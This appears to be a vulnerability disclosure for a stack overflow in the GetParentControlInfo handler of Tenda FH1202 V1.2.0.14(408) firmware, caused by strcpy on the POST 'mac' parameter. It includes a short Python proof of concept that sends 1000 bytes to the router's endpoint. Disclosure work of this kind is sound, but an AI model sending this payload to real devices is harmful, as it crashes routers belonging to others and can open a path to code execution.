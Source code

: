 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `GetParentControlInfo` function. The `src` variable receives the `mac` parameter from a POST request and is later assigned `s` to by function `strcpy`. However, since the user can control the input of  `mac`, it can cause a stack overflow. The user-provided  `mac` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240319223723575](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223723575.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/GetParentControlInfo"
payload = b"a"*1000

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319223833354](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223833354.png)
